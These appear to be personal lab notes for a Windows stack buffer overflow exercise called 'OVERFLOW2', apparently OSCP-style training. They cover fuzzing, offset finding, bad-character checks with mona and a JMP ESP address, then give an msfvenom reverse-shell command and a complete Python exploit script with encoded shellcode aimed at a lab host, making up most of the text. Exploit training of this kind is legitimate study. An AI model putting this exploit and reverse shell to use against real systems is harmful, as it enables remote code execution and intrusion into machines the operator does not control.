 ## fuzzing

![[Pasted image 20210530123033.png]]

## pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700 | xclip -selection clipboard`

## offset

EIP: 76413176

![[Pasted image 20210530123548.png]]

Exact match at offset 634

![[Pasted image 20210530123625.png]]

![[Pasted image 20210530123854.png]]

## bad chars
![[Pasted image 20210530124209.png]]

`!mona config -set workingfolder c:\mona\%p`

`!mona bytearray -b "\x00"`

`!mona compare -f C:\mona\oscp\bytearray.bin -a 018BFA30`

![[Pasted image 20210530124336.png]]

bad chars: `\x00\x23\x3c\x83\xba`

## jmp point

`!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"`

![[Pasted image 20210530124646.png]]

625011AF

little endian

`\xaf\x11\x50\x62`

## exploit

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001
EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x23\x3c\x83\xba"`


![[Pasted image 20210530125031.png]]

```python
import socket

ip = "10.10.215.21"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x94\xfa\x8d\xa0\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x68\x12\x0f\xa0\x90"
"\xe3\x70\x28\x75\xd2\xb0\x4e\xfe\x45\x01\x04\x52\x6a\xea\x48"
"\x46\xf9\x9e\x44\x69\x4a\x14\xb3\x44\x4b\x05\x87\xc7\xcf\x54"
"\xd4\x27\xf1\x96\x29\x26\x36\xca\xc0\x7a\xef\x80\x77\x6a\x84"
"\xdd\x4b\x01\xd6\xf0\xcb\xf6\xaf\xf3\xfa\xa9\xa4\xad\xdc\x48"
"\x68\xc6\x54\x52\x6d\xe3\x2f\xe9\x45\x9f\xb1\x3b\x94\x60\x1d"
"\x02\x18\x93\x5f\x43\x9f\x4c\x2a\xbd\xe3\xf1\x2d\x7a\x99\x2d"
"\xbb\x98\x39\xa5\x1b\x44\xbb\x6a\xfd\x0f\xb7\xc7\x89\x57\xd4"
"\xd6\x5e\xec\xe0\x53\x61\x22\x61\x27\x46\xe6\x29\xf3\xe7\xbf"
"\x97\x52\x17\xdf\x77\x0a\xbd\x94\x9a\x5f\xcc\xf7\xf2\xac\xfd"
"\x07\x03\xbb\x76\x74\x31\x64\x2d\x12\x79\xed\xeb\xe5\x7e\xc4"
"\x4c\x79\x81\xe7\xac\x50\x46\xb3\xfc\xca\x6f\xbc\x96\x0a\x8f"
"\x69\x38\x5a\x3f\xc2\xf9\x0a\xff\xb2\x91\x40\xf0\xed\x82\x6b"
"\xda\x85\x29\x96\x8d\xa3\xbc\x9c\x9d\xdc\xbc\x9c\x3e\x34\x48"
"\x7a\x2a\x56\x1c\xd5\xc3\xcf\x05\xad\x72\x0f\x90\xc8\xb5\x9b"
"\x17\x2d\x7b\x6c\x5d\x3d\xec\x9c\x28\x1f\xbb\xa3\x86\x37\x27"
"\x31\x4d\xc7\x2e\x2a\xda\x90\x67\x9c\x13\x74\x9a\x87\x8d\x6a"
"\x67\x51\xf5\x2e\xbc\xa2\xf8\xaf\x31\x9e\xde\xbf\x8f\x1f\x5b"
"\xeb\x5f\x76\x35\x45\x26\x20\xf7\x3f\xf0\x9f\x51\xd7\x85\xd3"
"\x61\xa1\x89\x39\x14\x4d\x3b\x94\x61\x72\xf4\x70\x66\x0b\xe8"
"\xe0\x89\xc6\xa8\x01\x68\xc2\xc4\xa9\x35\x87\x64\xb4\xc5\x72"
"\xaa\xc1\x45\x76\x53\x36\x55\xf3\x56\x72\xd1\xe8\x2a\xeb\xb4"
"\x0e\x98\x0c\x9d\x0e\x1e\xf3\x1e"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```